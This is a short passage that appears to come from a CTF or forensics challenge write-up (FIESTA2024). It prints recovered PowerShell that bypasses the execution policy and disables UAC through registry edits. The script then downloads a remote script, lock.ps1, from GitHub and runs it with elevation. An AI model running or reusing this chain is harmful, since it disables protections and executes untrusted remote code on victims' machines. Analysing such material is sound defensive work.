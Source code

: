 ![image.png](/assets/img/posts/2025-02-16-FIESTA2024-cert1-addinfo/image%201.png){: width="80%" height="80%"}

<br>

```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
function Disable-UAC{`
$regPath="HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" Set-ItemProperty -Path $regPath -Name "EnableLUA" -Value 0 -Type DWord`
Set-ItemProperty -Path $regPath -Name "ConsentPromptBehaviorAdmin" -Value 0 -Type DWord`
}`
Disable-UAC
function Disable-UAC{`
$regPath="HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" `
Set-ItemProperty -Path $regPath -Name "EnableLUA" -Value 0 -Type DWord`
Set-ItemProperty -Path $regPath -Name "ConsentPromptBehaviorAdmin" -Value 0 -Type DWord`
}`
Disable-UAC
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/imnothackerkkk/key/main/lock.ps1' -OutFile 'C:\\Users\\Public\\lock.ps1'`
Start-Process 'powershell.exe' -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File "C:\\Users\\Public\\lock.ps1"' -VerbRunAs -Wait
cd ..
ls
cd .\Users\
cd .\Public\
l
ls
.\lock.ps1
```
<br>
